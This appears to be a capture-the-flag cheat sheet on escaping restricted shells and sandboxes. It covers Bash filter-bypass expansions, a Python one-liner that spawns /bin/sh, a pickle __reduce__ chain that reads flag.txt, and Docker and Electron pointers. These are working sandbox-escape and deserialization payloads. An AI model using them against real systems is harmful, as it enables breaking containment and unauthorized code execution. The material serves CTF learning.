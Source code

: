 # Escape

## Homebrew shells

[List for \*nix](https://gtfobins.github.io/) \([Tool](https://github.com/mzfr/go-gtfo)\)  
[List for windows](https://lolbas-project.github.io/)

If the challenge is a homemade shell with some artificial limitations, gtfobins and LOLBAS list myriad ways to escape. These aren't vulnerabilities, per se, but intended functionality of applications that are commonly installed.

## Bash

[Good ideas](https://wiki.bash-hackers.org)  
[List of parameter expansions](https://wiki.bash-hackers.org/syntax/pe)

### Forbidden strings

```bash
${NOSUCHVAR:-fla}${NOSUCHVAR:-g.txt}    # expands to flag.txt
```

### Stars aren't the only wildcard

```bash
fla?.txt
fl{a,A}g.txt
fl[a-z]g.txt
```

## Python

[Tell me more](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Python has **so many** ways to introspect, reflect, reload, import, execute unintended code.

Here's a pretty simple one:

```python
import statistics
statistics.random._os._execvpe("/bin/sh", [], {})
```

### Pickle

[Source](https://gist.github.com/toblu302/364c3b474c4148295fdee9bd0207e758)

```python
#!/usr/bin/env python3

# From the error message we can see that only __main__, __buitin__ and copyreg are allowed
# __builtin__.eval and __builtin__.exec are banned as well
# We can just open and print the flag.txt by using __builin__.open, followed by readline and print
# This sequence of calls is constructed below by using multiple objects and the pickle __reduce__ interface

import base64
import builtins
import pickle

class FlagObjPickle:
    def __reduce__(self):
        return builtins.open, ("./flag.txt",)
    def readlines(self):
        pass

class ReadFlagPickle:
    def __reduce__(self):
        return FlagObjPickle().readlines, tuple()

class PrintFlagPickle:
    def __reduce__(self):
        return builtins.print, (ReadFlagPickle(),)

a = PrintFlagPickle()
pickled = pickle.dumps(a, 0)
```

Any callable in the target's namespace can be called with \(almost\) arbitrary parameters by pickling a class which implements `__reduce__`. Return the callable and a tuple of arguments. See above for a technique to chain as well.

## Docker

* [deepce](https://github.com/stealthcopter/deepce/), a vulnerability scanner.  
* [grype](https://github.com/anchore/grype), a vulnerability scanner.  
* [WhaleScan](https://github.com/nccgroup/whalescan), scans windows containers.

## Electron

[Tell me more](https://github.com/doyensec/awesome-electronjs-hacking)

[view-source:](https://twitter.com/HusseiN98D/status/1325464364569276417) isn't necessarily blocked like `file://` is. Perhaps the app even uses its own [custom URI scheme](https://twitter.com/zer0pwn/status/1325581291060826112)?

